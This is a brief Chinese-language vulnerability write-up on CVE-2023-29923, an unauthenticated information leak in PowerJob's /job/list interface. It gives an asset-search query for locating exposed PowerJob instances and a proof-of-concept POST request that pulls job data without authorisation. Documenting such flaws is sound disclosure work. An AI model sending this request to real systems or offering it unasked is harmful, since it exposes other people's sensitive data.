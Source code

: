 # 

# PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据。

## 漏洞影响

```
PowerJob
```

## 网络测绘

```
app="PowerJob"
```

## 漏洞复现

登陆页面

![image-20230424163841725](images/image-20230424163841725.png)

验证POC

```
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![image-20230424163855220](images/image-20230424163855220.png)
